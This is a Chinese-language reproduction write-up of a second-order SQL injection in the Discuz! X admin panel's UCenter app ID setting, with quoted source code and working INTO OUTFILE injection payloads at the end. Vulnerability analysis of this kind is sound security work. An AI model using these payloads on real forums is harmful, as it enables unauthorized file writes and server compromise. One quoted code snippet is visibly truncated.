




Discuz! X 系列全版本 后台Sql注入漏洞
====================================

一、漏洞简介
------------

利用条件：

1.知道网站的绝对路径

2.secure\_file\_priv的值为空

二、漏洞影响
------------

Discuz!X 系列全版本 截止到 Discuz!X 3.4 R20191201 UTF-8

三、复现过程
------------

挖过discuz 漏洞的都知道 它会对大部分传参进来的值进行过滤和校验
，所以当时找了一个二次注入的点

uc\_server\\model\\base.php 37行

    <?php

    /*
    [UCenter] (C)2001-2099 Comsenz Inc.
    This is NOT a freeware, use is subject to license terms

    $Id: base.php 1167 2014-11-03 03:06:21Z hypowang $
    */

    !defined('IN_UC') && exit('Access Denied');

    class base {

        var $sid;
        var $time;
        var $onlineip;
        var $db;
        var $view;
        var $user = array();
        var $settings = array();
        var $cache = array();
        var $app = array();
        var $lang = array();
        var $input = array();

        function __construct() {
            $this->base();
        }

        function base() {
            $this->init_var();
            $this->init_db();
            $this->init_cache();
            $this->init_app();
            $this->init_user();
            $this->init_template();
            $this->init_note(); //跟进
            $this->init_mail();
        }

uc\_server\\model\\base.php 198行 开始

    function init_note() {
         if($this->note_exists()) { //跟进
             $this->load('note');
             $_ENV['note']->send();
         }
     }

     function note_exists() {
         $noteexists = $this->db->result_first("SELECT value FROM ".UC_DBTABLEPRE."vars WHERE name='noteexists".UC_APPID."'"); //从配置文件取值UC_APPID    
             return FALSE;
         } else {
             return TRUE;
         }
     }

查找UC\_APPID

source\\admincp\\admincp\_setting.php 2523行

    $settingnew = $_GET['settingnew']; //传入

        if($operation == 'credits') {
            $extcredits_exists = 0;
            foreach($settingnew['extcredits'] as $val) {
                if(isset($val['available']) && $val['available'] == 1) {
                    $extcredits_exists = 1;
                    break;
                }
            }
            if(!$extcredits_exists) {
                cpmsg('setting_extcredits_must_available');
            }
            if($settingnew['report_reward']) {
                $settingnew['report_reward']['min'] = intval($settingnew['report_reward']['min']);
                $settingnew['report_reward']['max'] = intval($settingnew['report_reward']['max']);
                if($settingnew['report_reward']['min'] > $settingnew['report_reward']['max']) {
                    unset($settingnew['report_reward']);
                }
                if($settingnew['report_reward']['min'] == $settingnew['report_reward']['max']) {
                    $settingnew['report_reward'] = array('min' => '', 'max' => '');
                }
                $settingnew['report_reward'] = serialize($settingnew['report_reward']);
            }
            $settingnew['creditspolicy'] = @dunserialize($setting['creditspolicy']);
            $settingnew['creditspolicy']['lowerlimit'] = array();
            foreach($settingnew['lowerlimit'] as $key => $value) {
                if($settingnew['extcredits'][$key]['available']) {
                    $settingnew['creditspolicy']['lowerlimit'][$key] = (float)$value;
                }
            }
            unset($settingnew['lowerlimit']);
        }
    if($operation == 'uc' && is_writeable('./config/config_ucenter.php') && $isfounder) {
            require_once './config/config_ucenter.php';

            $ucdbpassnew = $settingnew['uc']['dbpass'] == '********' ? addslashes(UC_DBPW) : addslashes($settingnew['uc']['dbpass']);
            $settingnew['uc']['key'] = addslashes($settingnew['uc']['key'] == '********' ? addslashes(UC_KEY) : $settingnew['uc']['key']);

            if(function_exists("mysql_connect") && ini_get("mysql.allow_local_infile")=="1" && constant("UC_DBHOST") != $settingnew['uc']['dbhost']){
                cpmsg('uc_config_load_data_local_infile_error', '', 'error');
            }

            if($settingnew['uc']['connect']) {
                $uc_dblink = function_exists("mysql_connect") ? @mysql_connect($settingnew['uc']['dbhost'], $settingnew['uc']['dbuser'], $ucdbpassnew, 1) : new mysqli($settingnew['uc']['dbhost'], $settingnew['uc']['dbuser'], $ucdbpassnew);
                if(!$uc_dblink) {
                    cpmsg('uc_database_connect_error', '', 'error');
                } else {
                    if(function_exists("mysql_connect")) {
                        mysql_close($uc_dblink);
                    } else {
                        $uc_dblink->close();
                    }
                }
            }

            $fp = fopen('./config/config_ucenter.php', 'r');
            $configfile = fread($fp, filesize('./config/config_ucenter.php'));
            $configfile = trim($configfile);
            $configfile = substr($configfile, -2) == '?>' ? substr($configfile, 0, -2) : $configfile;
            fclose($fp);

            $connect = '';
            $settingnew['uc'] = daddslashes($settingnew['uc']);
            if($settingnew['uc']['connect']) {
                $connect = 'mysql';
                $samelink = ($dbhost == $settingnew['uc']['dbhost'] && $dbuser == $settingnew['uc']['dbuser'] && $dbpw == $ucdbpassnew);
                $samecharset = !($dbcharset == 'gbk' && UC_DBCHARSET == 'latin1' || $dbcharset == 'latin1' && UC_DBCHARSET == 'gbk');
                $configfile = str_replace("define('UC_DBHOST', '".addslashes(UC_DBHOST)."')", "define('UC_DBHOST', '".$settingnew['uc']['dbhost']."')", $configfile);
                $configfile = str_replace("define('UC_DBUSER', '".addslashes(UC_DBUSER)."')", "define('UC_DBUSER', '".$settingnew['uc']['dbuser']."')", $configfile);
                $configfile = str_replace("define('UC_DBPW', '".addslashes(UC_DBPW)."')", "define('UC_DBPW', '".$ucdbpassnew."')", $configfile);
                if(!preg_match('/^[\w\d\_]+$/', $settingnew['uc']['dbtablepre']) || !preg_match('/^[\w\d\_]+$/', $settingnew['uc']['dbname'])) {
                    cpmsg('uc_config_write_error', '', 'error');
                }
                $configfile = str_replace("define('UC_DBNAME', '".addslashes(UC_DBNAME)."')", "define('UC_DBNAME', '".$settingnew['uc']['dbname']."')", $configfile);
                $configfile = str_replace("define('UC_DBTABLEPRE', '".addslashes(UC_DBTABLEPRE)."')", "define('UC_DBTABLEPRE', '`".$settingnew['uc']['dbname'].'`.'.$settingnew['uc']['dbtablepre']."')", $configfile);
            }
            $configfile = str_replace("define('UC_CONNECT', '".addslashes(UC_CONNECT)."')", "define('UC_CONNECT', '".$connect."')", $configfile);
            $configfile = str_replace("define('UC_KEY', '".addslashes(UC_KEY)."')", "define('UC_KEY', '".$settingnew['uc']['key']."')", $configfile);
            $configfile = str_replace("define('UC_API', '".addslashes(UC_API)."')", "define('UC_API', '".$settingnew['uc']['api']."')", $configfile);
            $configfile = str_replace("define('UC_IP', '".addslashes(UC_IP)."')", "define('UC_IP', '".$settingnew['uc']['ip']."')", $configfile);
            $configfile = str_replace("define('UC_APPID', '".addslashes(UC_APPID)."')", "define('UC_APPID', '".$settingnew['uc']['appid']."')", $configfile);

            $fp = fopen('./config/config_ucenter.php', 'w');
            if(!($fp = @fopen('./config/config_ucenter.php', 'w'))) {
                cpmsg('uc_config_write_error', '', 'error');
            }
            @fwrite($fp, trim($configfile)); // 写入到config_ucenter.php 可控UC_APPID 的值 通过上面代码可以看出来只简单的addslashes了一下
            @fclose($fp);
        }

        isset($settingnew['regname']) && empty($settingnew['regname']) && $settingnew['regname'] = 'register';
        isset($settingnew['reglinkname']) && empty($settingnew['reglinkname']) && $settingnew['reglinkname'] = cplang('reglinkname_default');
        $nohtmlarray = array('bbname', 'regname', 'reglinkname', 'icp', 'sitemessage', 'site_qq');
        foreach($nohtmlarray as $k) {
            if(isset($settingnew[$k])) {
                $settingnew[$k] = dhtmlspecialchars($settingnew[$k]);
            }
        }

        if(isset($settingnew['statcode'])) {
            $settingnew['statcode'] = preg_replace('/language\s*=[\s|\'|\"]*php/is', '_', $settingnew['statcode']);
            $settingnew['statcode'] = str_replace(array('<?', '?>'), array('<?', '?>'), $settingnew['statcode']);
        }

转义一次的字符串被写人文件中，在PHP解析时就是没有转义过的原始内容
造成了二次注入的产生

    <?php
    define('UC_APPID', 'sadsadsadasd\'');
    printf(UC_APPID);

漏洞验证

直接构造语句

    1' into outfile 'c:\\wamp64\\tmp\\1.txt'  -- a

构造报错注入

### 补充：

UCenter 应用 ID填入exp，然后提交

    1' union select 'abc'  into outfile 'c:\6.txt' -- a
